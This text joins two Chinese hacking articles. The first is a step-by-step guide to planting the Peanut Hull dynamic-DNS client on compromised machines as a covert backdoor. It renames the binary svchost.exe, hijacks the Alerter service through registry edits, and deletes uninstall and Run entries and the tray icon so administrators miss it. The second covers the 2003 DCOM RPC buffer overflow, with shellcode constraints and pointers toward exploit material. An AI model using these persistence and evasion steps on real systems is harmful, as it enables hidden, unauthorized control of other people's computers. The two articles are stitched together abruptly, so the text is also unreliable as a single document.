慢找了。难道你有好的办法（某急性者问）？嘿嘿！如果没有好的办法，我也就不会写这篇文章了。你想不想将你手头的这些“动态肉鸡”给它加个固定地址，让它和有固定IP地址的肉鸡有完全的“待遇”？想？想的话，往下看。

在这里我推荐用一个叫花生壳的软件作为后门软件，将它装在肉鸡上并给它申请一个域名，以后想找那台肉鸡，最多只要PING一下指定域名就知道肉鸡的IP地址。

在这先介绍一下花生壳。花生壳是网域科技出的一个免费的域名解析工具。只要在一台拨号上网的机器上安装花生壳并给它注册一个属于自己的域名之后，你的机器就有了相应的域名，在你的机器上安装并将相应的域名加入完成后，任何人都可以在互联网上的任何一个地方，通过域名访问到你的机器，而无论本机获得的是属于动态IP还是静态IP。当然，如果将它装在内网的话，花生壳是无法获得相应的域名的。一句话，只要用花生壳，任何拨号上网的用户现在都可以和有固定地址的用户一样拥有一个固定的地址。关于花生壳的更多信息，你可以去它的网站了解。它的网址是http://www.oray.net。

在开始之前，我们先说一下前提，由于是要给肉鸡安装软件，所以你至少要给它开个终端吧，当然，如果你喜欢把对方的管理员当成透明的，用PCANYWHERE等软件连接上去安装也行，就是得有给对方安装软件的环境和权限。如果没有，那先去完成上面说的，再往下看。现在让我们开始。

### 一、 注册域名

由于我们是要将花生壳安装在我们的肉鸡上并给它一个相应的域名，所以我的建议是先在本地申请好要给肉鸡定的域名后，并在肉鸡上安装客户端时输入进去。尽量减少在肉鸡上做无谓的操作，以免留下任何蛛丝马迹。

申请花生壳的域名需要到它的网站申请，我们打入 www.oray.net 进入它的网站。先在上面注册网域的护照，注册完毕后再激活花生壳服务对应的域名。由于注册跟申请免费邮箱之类的类似，比较简单，我就不再赘述了。

### 二、 安装客户端

通过上面，我们已在本地“替”肉鸡申请好相应的域名后，现在我们可以给肉鸡安装花生壳了。在这里我是通过终端服务连接上去操作的(下同)。

我们到网域的网站下载花生壳的客户端，目前最新版本是2.1。

双击打开下载完成后的程序，程序自动运行，按“下一步”来到“网域护照”选项处，在用户名处输入“替”肉鸡申请的用户名，在密码处输入对应的密码。如图1所示。



输入完成后再按“下一步”按钮，来到选择安装路径处，默认是装在系统盘下的c:\program files\peanuthull (在这里假设系统是装在C盘下面)。由于是将其作为后门来安装，我认为默认安装的路径是不可取的，我们将安装路径修改，就将它放在winnt\system32\inetsrv文件夹下吧，如图2。



虽然system32文件夹下的文件非常多，容易隐藏，但出于其他目的(后面我会提到)，我不将它放在system32文件夹下，而将它放在其属下的inetsrv文件夹下。当然，你也可以将它放在其他文件夹下，随你的便。inetsrv文件夹是系统自带的，如果对方有装IIS的话，那这个文件夹里面就有不少文件，如果没有装，那里面的文件就非常少(也有可能没有文件)，其中的好处，我后面还会提到。安装的其余步骤的一律按“下一步”按钮即可。在按“完成”按钮之前，不选“立即启动花生壳”选项。

至此，我们在肉鸡上安装花生壳客户端的工作已经完成。等对方重新启动机器时，花生壳客户端就自动运行了。

### 三、 消除快捷及记录

通过上面的安装操作，我们已经将花生壳客户端成功地安装在目标机器上。但我们安装的花生壳客户端也会赤裸裸地暴露在对方管理员的面前。最明显的有：花生壳在安装完成后会在桌面创建一个快捷方式、在程序菜单下留下一个文件夹选项以及添加删除程序那里也会显示该机已经安装花生壳客户端。那怎么办? 一个字: 删!

- 1. 删除快捷方式
删除桌面的快捷方式很简单，在快捷方式上面按右键，在弹出的右键菜单中选“删除”选项即可。删除程序菜单下的文件夹选项，只需要在要删除的文件夹上面按右键，在弹出的右键菜单中选“删除”选项即可。删除完成后，别忘了清空回收站。

- 2. 删除添加删除程序中的记录
很多程序在安装完成后都会在“添加删除程序”中记录下来，以备下次做反安装等用。花生壳也不例外。由于我们是在肉鸡上安装软件，所以我们要尽可能不让对方发现。所以这里我们一定要删除它，以免留下不必要的后患。删除的方法也很简单，打开注册表。找到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\PeanutHull子键。

选中“PeanutHull”子键并按鼠标右键，在弹出的快捷方式中选“删除”，将其删除即可，这样，花生壳就不会在“添加删除程序”里面出现了。

- 3. 删除启动键值
花生壳在安装完成后，通常会在HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run下留下一个名为“Peanut Hull Client”的键项，这一项不是必需的，况且现在很多人对Run下的键项比较敏感，弄不好我们留下的“足迹”就有可能被发现。所以我们必须将其删除。选定它后按右键，选“删除”即可。

现在对方很难发现我们在他的机器上安装花生壳了。



### 四、 隐藏花生壳

通过上面的操作，我们已将花生壳装入对方的机器并做了一些基本的隐蔽，但是，它还存在着各种各样的问题。这不，我们往下看。

也许有一天，肉鸡上的管理员有意无意地发现，在系统的进程列表中，多了一个“phsvc”的进程，再看看服务列表。咦！那个“Peanut Hull Client Service”服务是干什么用的？以前并没有这项服务啊，况且还是自动启动的。不行不行，我得仔细研究一下。怎么样？系统管理员发现问题了吧！如果对方将“Peanut Hull Client Service”它改为“禁用”或“手动”且立即停止该服务，那咱装的花生壳就无用武之地了吧？呵呵！既然如此，那我们就来给花生壳做进一步的隐蔽，不让对方轻易发现。

- 1. 进程的隐藏
花生壳服务启动后，会在系统的进程列表中产生一项名为“phsvc”的进程，这个很容易引起管理员的注意。为不引起管理员的注意，我们必须将花生壳的源程序进行更名，程序更名后它在系统进程列表产生的进程就是更名后的进程名称。比如，我们将其更名为svchost.exe，运行后它就会在系统的进程列表中产生一项叫“svchost”的进程，而不是原来的“phsvc”进程。这一步是非常重要的。之所以将它更名成svchost是因为系统自带了一个叫svchost的文件，且是非常重要的文件，系统自带的好几项服务都调用到它，所以它在系统的进程列表中也重复出现好几次。这也是我将花生壳源文件改成这个名称的原因。相信没有多少大侠去怀疑进程列表的svchost吧？现在我们将花生壳安装所在文件夹下的phsvc.exe文件更名成svchost.exe。

现在我来给大家解释一下我刚才为什么要将花生壳的安装位置更改在%systemroot%\system32\inetsrv文件夹下，主要是我发现很多服务器都装有IIS，而IIS的很多文件就是存在这里，将花生壳放在这里，主要是做鱼目混珠之用。况且很多管理员从来不理会源程序的存放位置，更不会去注意到这个文件夹。当然，如果你习惯在肉鸡上将文件放在%systemroot%\system32下面或其他文件夹，也随你的便。不过，如果你将它放在%systemroot%\system32的话，花生壳的源程序就不能更名成svchost.exe了，因为在该文件夹下系统已自带了一个相同名称的文件，且不能删除。

- 2. 替换系统服务
一些管理员在机器安装完成后，会将系统的服务列表导出，过一段时间之后再核对一次，以便发现系统是否存在后门等问题。而花生壳在安装完成后，由于启动程序的需要，会在系统的服务列表增加一项服务名为“Peanut Hull Client Service”的服务。由于一些管理员会隔一段时间之后逐项去核对系统的服务列表，所以花生壳新增的那一项“Peanut Hull Client Service”服务肯定会被发现，但要使花生壳的程序运行起来又不增加，那怎么办？有没有两全其美的方法呢？办法是有的，那就是替换系统自带的服务。虽然有一些管理员会去核对服务列表、进程是否有异常，但却不会去仔细看服务所调用到的程序的值。因为很多管理员不是很熟悉系统的服务所调用、对应的程序。这样，这给我们留下了很大的空子。现在我们就拿系统自带的Alerter服务来开刀，将安装花生壳后所产生的服务在服务列表换成Alerter服务在系统服务列表的名称，达到瞒天过海的目的。现在开始。

Alerter服务是系统自带的服务，且是自动启动的，但它不是系统所完全必须，可以将它停掉，所以在这里我们选定并要将它替换掉。

打开注册表，来到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services并找到“Peanut Hull Client Service”的子键。选定它并按上面菜单的“注册表”、“导出注册表文件”将其导出。导出完成后，再选定导出后的文件并按右键，在弹出的快捷方式中选“编辑”选项，系统将以文本的形式打开导出的注册表文件。

由于我们要替换Alerter服务，所以我们将导出的注册表文件中所有“Peanut Hull Client Service”全部更改为“Alerter”(注意首字母要大写)当然，也包括了那一项DisplayName，它的键值直接显示在系统的服务列表中，如果不做修改，那它到时候还是活生生地在服务列表显示是“Peanut Hull Client Service”很容易引起管理员的怀疑。修改后结果如图3所示。


保存后退出。并双击打开保存后的注册表文件，使其导入系统中。

怎么样？有些像了吧？刚才导入的注册表文件只是替换其中已有的键项的名称的值，但如果原先已存在Alerter子键下的键项而没有在Peanut Hull Client Service子键出现的键项，它们是不会自动消失的，呶！原先Peanut Hull Client Service子键下没有Description键项而Alerter子键下有，导入后它依然存在。而它的作用是给原来的Alerter服务做描述。呵呵！看，它的服务描述依然是Alerter服务原来的描述，只是它现在在给替换后的服务做描述。

对了，替换后的Alerter服务调用的程序还是c:\winnt\system32\inetsrv\PHSvc.exe，由于前面我们已经对其进行了更名，所以现在我们也必须做相应修改。选定“ImagePath”键项并按右键，在弹出的快捷方式中选“修改”，在弹出的对话框中将它的值修改成c:


\winnt\system32\inetsrv\svchost.exe，结果如图4所示。

好了，现在Alerter服务的替换已基本完成，我们打开系统服务列表查看Alerter服务的属性，结果如图5所示。


替换后的Alerter服务跟原来的Alerter服务相差几何？虽然上面显示Alerter服务已启动并调用的程序是我们做了手脚之后的svchost.exe程序，但由于它是在我们做替换之前就启动的，调用的程序仍是原来指定的程序。要使替换后的Alerter服务生效，必须停止该服务后再启动。但在这里我们不要这样做。

除了更改该服务原来调来程序的值、位置之外，其他的，是不是看不出来？就算对方的管理员发现有问题，那也说不定他不敢随便关掉这个服务。

- 3. 删除源服务
由于花生壳安装完成后会自己产生一项新的服务——“Peanut Hull Client Service”服务，而我们又已经通过替换的方法，给它重新做了一项启动它的服务选项，所以现在我们已不需要它来启动花生壳服务了。我们要将它禁用或删除。由于我们是将它作为后门来使用，所以我们要将它删除，以免留下不必要的麻烦。

删除系统服务的方法很多，在这里我推荐用微软Resource kit工具箱中的sc来删除“Peanut Hull Client Service”服务。使用命令“sc delete "Peanut Hull Client Service"”即可。

sc删除服务是即时性的，一旦命令执行完成，指定删除的服务就从系统中彻底over了。由于“Peanut Hull Client Service”还没启动，所以我们可以直接删除，如果已启动，必须先停止该服务后再用sc删除才能使用即时生效。

### 五、 隐藏任务栏图标

通过上面的操作，我们已经成功地将花生壳自带的服务选项“溶入”到了系统自带的服务选项之中。但在启动该服务之前我们还有一项很重要的工作要做。什么工作呢？

来到c:\winnt\system32\inetsrv文件夹下，有没有看到一个叫phnt.exe的文件？双击打开它，这时会弹出一个对话框，将它的“服务器连接状态”设成“仅启动后台服务”如图所示。



之所以设为后台服务，主要是在默认情况下，花生壳启动后，会在系统的任务栏产生一个新的图标。如果是加载在自己的机子上那倒是无所谓，但如果是安在肉鸡上，那问题就来了。对方管理员不会眼睁睁地看着任务栏多了一个图标不理吧？所以我们将它改成“仅启动后台服务”。其余的不用理。按“应用”按钮后再按“确定”。选这个选项后，在下次启动时，它就不会产生一个图标在任务栏，可以达到隐藏自己的目的。这一步可以说是至关重要的，不然，我们前面所做的工作有可能到这一步就前功尽弃了。

### 六、 查找客户端

好了，通过上面一连串的操作，我们已经成功地



将花生壳客户端安装在我们的肉鸡上并做了隐藏。下次不管对方上网的IP是多少，只要他在线，我们只需PING一下我们“替”他申请的域名就知道。现在让我们来测试一下，如图7所示就是我ping域名为netff.vicp.net(请勿对号入座)返回后的信息。

图7返回的信息表明对方此时在线，且IP地址是218.97.238.206。当然，如果对方不在线，你ping“替”他申请的域名时，返回的IP地址就是网域服务器的IP地



址。如图8就是对方不在线时返回的信息：

如果你ping对方时，返回的IP地址也是跟图8的一样，那就表示对方此时不在线，或者对方把花生壳服务给停了。

完成了上面所有的工作并启动花生壳后，我用Telnet、Radmin等工具连接肉鸡时，均无须事先知道肉鸡IP，直接用域名连接即可，怎么样？方便吧，不过如果用终端连接器连接的话，由于网域服务器的原因，需要在终端连接器上直接输入目标机器的IP地址，而不能是域名，否则它连接的是网域的服务器而不是肉鸡。

花生壳的确确是一个很不错的域名解析软件，与同类软件相比，它都是非常优秀的，但最重要的还是，它是免费的。经常在一些论坛看到有网友的签名档中有这么一个签名:xxx.vicp.net等等。在宽带越来越普及的今天，利用多余的一点宽带为大家提供一些额外的服务似乎是很多没有属于自己的主机、域名的管理员的一个心愿。君不见，现在有很多用宽带拨号上网的朋友为大家提供FTP等服务，共享自己的数据，而负责解析域名的就是用花生壳来实现。方便吧?

2003年7月到8月的安全焦点无可争议地集中在了DCOM RPC漏洞上，因为正是安全焦点首先公布了基于此漏洞的攻击代码，这在网上无异于一石激起千层浪，引起了关于是否应该公布攻击代码的是是非非的争议，而安全焦点的Quack更于近日发表了关于攻击代码的声明，这让DCOM RPC漏洞变得更加炙手可热。目前网上针对该漏洞的攻击方法和变种工具比较多，这个漏洞与攻击工具的出现，无疑让我们以往觉得非常困难的一些事情瞬间变得异常简单。在这个比40°高温还要火辣辣的漏洞面前，难道您还能保持冷静吗？

## 在 DCOM RPC 漏洞中前进……

文/bombman

2003年7月16日，波兰的安全组织LSD公布了Windows操作系统的一个安全漏洞，紧接着国内的安全焦点和bugtraq相继给出了flashsky编写的漏洞分析和攻击代码。但过了不久，安全焦点网站关于该漏洞细节的文章被撤了下来，其中的缘由我们不得而知。但是，关于此漏洞的攻击工具却就此繁衍起来。

Remote Procedure Call (RPC)是Windows操作系统使用的一种远程过程调用协议，提供进程间通信。由于Microsoft RPC的DCOM(分布式组件对象模块)接口存在缓冲区溢出缺陷，如果攻击者成功利用了该漏洞，将会获得本地系统权限，他将可以在系统上运行任意命令，如安装程序、查看或更改、删除数据或者是建立系统管理员权限的账户等。

使用DCOM可以远程操作其他电脑中的DCOM应用程序。该技术使用的是用于调用其他电脑所具有的函数的RPC(远程过程调用)功能。要利用这个漏洞，攻击者只需要发送特殊形式的请求到远程机器上的135端口。该攻击轻则造成拒绝服务攻击，严重则可以让远程攻击者以本地管理员权限执行任何操作。

这个漏洞号称迄今为止Windows系统中发现的最严重的一个系统漏洞。该漏洞涉及范围非常之广，如Microsoft Windows NT 4.0、Microsoft Windows NT 4.0 Terminal Services Edition、Microsoft Windows 2000、Microsoft Windows XP、Microsoft Windows Server 2003等。目前关于该漏洞的攻击代码已经涉及的相应系统和版本已经有48种之多，其危害性可见一斑。

在我们正式介绍这个漏洞之前，还是让我们先了解一点相关知识吧。

### 什么是DCOM和RPC

在传统的编程概念中，过程是由程序员在本地编译完成，并只能局限在本地运行的一段代码，即其主程序和过程之间的运行关系是本地调用关系。这种结构在网络日益发展的今天已无法适应实际需求。传统过程调用模式无法充分利用网络上其他主机的资源（如CPU、Memory等），也无法提高代码在实体间的共享程度，使得主机资源大量浪费。而RPC正是很好地解决了传统过程所存在的一系列弊端，通过RPC可以方便地实现过程代码共享，提高系统资源的利用率，也可以将以大量数值处理的操作放在处理能力较强的系统上运行，从而减轻前端机的负担。

那么，RPC具体是如何运作的呢？其通常的步骤如下所示：

- 1. 调用客户端句柄，执行传送参数；
- 2. 调用本地系统内核发送网络消息;
- 3. 消息传送到远程主机;
- 4. 服务器句柄得到消息并取得参数;
- 5. 执行远程过程;
- 6. 执行的过程将结果返回服务器句柄;
- 7. 服务器句柄返回结果,调用远程系统内核;
- 8. 消息传回本地主机;
- 9. 客户句柄由内核接收消息;
- 10. 客户接收句柄返回的数据。

> **提示**
> 请注意以上几个步骤中提到的传递参数,后面漏洞介绍中会有所涉及。

RPC服务是操作系统中极为重要的一个服务,其服务名为RPCSS,其描述为“提供终结点映射程序 (endpoint mapper) 以及其他RPC服务”。操作系统中太多的功能和服务都依赖于它(图1)。大家通过里面显示的服务和右边的滚动条就应该看得出来受其影响的程序有多少了。一旦禁用,我们便可以明显体会到RPC可以提供的强大功能。大家可以将常规中的“启动类型”修改为已禁用或“手动”,然后重启试试。

据漏洞描述,该漏洞影响使用RPC的DCOM接口,这个接口用来处理由客户端机器发送给服务器的DCOM对象激活请求(如UNC路径),那么DCOM究竟是什么呢?

DCOM( Distributed Component Object Model, 即分布式COM ),该协议的前身是OSF RPC协议,但是增加了微软自己的一些扩展。它扩展了组件对象模型技术( COM ),使其能够支持在局域网、广域网甚至Internet上不同计算机的对象之间的通讯。使用DCOM,你的应用程序就可以在位置上达到分布性,从而满足你的客户和应用的需求。因为DCOM是世界上领先的组件技术COM的无缝扩展,所以可以将现在基于COM的应用、组件、工具以及知识转移到标准化的分布式计算领域中来。当你在做分布式计算时,DCOM处理网络协议的低层次的细节问题,从而使你能够集中精力解决用户所要求的问题。

在Windows 2000中,我们可以在“开始->运行”中输入命令“dcomcnfg.exe”进入DCOM配置属性界面并进行相关配置(图2)。

### 漏洞原理分析

7月25日,flashsky在安全焦点网站公布了DCOM RPC漏洞的细节


及相应的攻击测试代码。关于漏洞的原理分析,我想最权威的当属flashsky的那篇分析了,这里我们引用其部分原文如下:

> “LSD 的RPC溢出漏洞( MS03-26 )其实包含了2个溢出漏洞,一个是本地的,一个是远程的。它们都是由一个通用接口导致的。
> 
> 导致问题的调用如下:
> ```
> hr= CoGetInstanceFromFile
> (pServerInfo,NULL,0,
> CLSCTX_REMOTE_SERVER,
> STGM_READWRITE,L"C:\123456
> 111111111111111111111111111111.doc",1,
> &qi);
> ```
> 这个调用的文件名参数(第5个参数,会引起溢出),当这个文件名超长的时候,会导致客户端的本地溢出(在RPCSS中的GetPathForServer函数里只给了0x220堆栈的空间,但是是用lstrcpyw进行拷贝的)。”

> “在客户端给服务器传递这个参数的时候,会自动转化成如下格式: L"\servername\c$\123456111111111111111111111111.doc"这样的形式传递给远程服务器,于是在远程服务器的处理中会先取出servername名,但是这里没做检查,给定了0x20(默认NETBIOS名)大小的空间,于是堆栈溢出产生了。”

这里,让我们看看一般的缓冲区是如何溢出的?
当程序调用一个子程序的时候,系统会先将当前调用语句的下一条指令地址压入堆栈,然后进入子程序继续执行。在子程序执行的过程中大都会在堆栈中继续对堆栈进行操作,正常情况下,当子程序返回时,会将当初调用语句的下一条指令的地址(已经压入堆栈)弹出放入EIP中,然后从EIP中的地址继续执行,这样便使得原程序得以继续执行。

但在子程序执行过程中,在对堆栈进行操作时有时候可能导致原来压入堆栈的下一条指令的地址被覆盖,为什么呢? 举个例子:

```
void main()
{
    testp();
    cout<<"hello,test!";
    cout<<"overflow test!"
}
int testp()
{
    int test[2];
    int temp;
    for (int ix=0;ix<=3;ix++)
    {
        cout<<"please input Number";
        cin>>temp;
        test[ix]=temp;
    }
    return 0;
}
```

这时候,一个本来只有两个元素的数组,我们连续输入了4个元素。其中后面两个都是不正常的,我们输入的第4个数会覆盖返回地址。如果我们将紧接着testp后面的语句( cout<<"hello,test!" )的地址4200109作为第四个数输入,那么该程序便会输出“hello,test!”和“overflow test”。如果第4个输入为4200127(即后面cout <<语句的地址),那么该程序便只输出“overflow test!”。

可见我们通过构造第4个输入,已经改变了程序的指令流程。如果我们将执行代码也作为输入送到堆栈中(当然,一般是在对字符串进行操作时),并且在返回地址处构造某个各dll中一特殊语句(譬如“jmp esp”)的地址,那么就可以让testp函数返回后执行jmp esp语句,从而执行我们自己构造的代码。

上面我们之所以能够达到目的,是因为堆栈是从高地址往低地址逐渐分配的,而我们输入的却是先给数组中的低地址,然后逐渐分配高地址,由于在输入时没有对数组的大小( 2个元素,仅分配8个字节空间)进行验证,而我们却又正好连续输入了我们自己构造的地址,导致数据继续向高地址填充时覆盖了正常的返回地址。

上面这个简单例子仅是为了简单说明一下缓冲区溢出的一种简单方式。下面,让我们继续看看上面的漏洞。

同样,在远程服务器的处理中取出servername名后,由于没做检查,而系统只给定了0x20(默认NETBIOS名)大小的空间,当输入足够多的字符串,堆栈发生溢出,并且导致可以直接执行构造的ShellCode。文章中多次提到了0x5C,它是“\”的ASCII码。为什么ShellCode中不能出现0x5C呢? 这与\servername后的“\”有关,如果ShellCode中出现“\”,程序会认为servername输入完毕,从而截断ShellCode。

关于这部分更加具体的代码分析和攻击测试程序部分,大家可以参考《LSD RPC 溢出漏洞之分析》一文。

> **提示**
> 安全焦点网站中已经删除了该文,不过既然大家知道了文章名,相信还是可以想法方法找到的。

### 攻击工具和攻击方法

自从flashsky的《LSD RPC 溢出漏洞之分析》一文公布之后不久,便出现了很多可以直接对该漏洞进行攻击的Exploit, 版本也越来越多。另外, 专门针对这个漏洞的扫描工具也出现了。下面我们具体看看目前的状况。

#### 1. DCOM RPC 扫描工具

目前, 笔者拿到的扫描工具有两种: 图形和命令行各一种。这里, 我们做个简单介绍。

(1)图形扫描工具Retina(R) DCOM Scanner
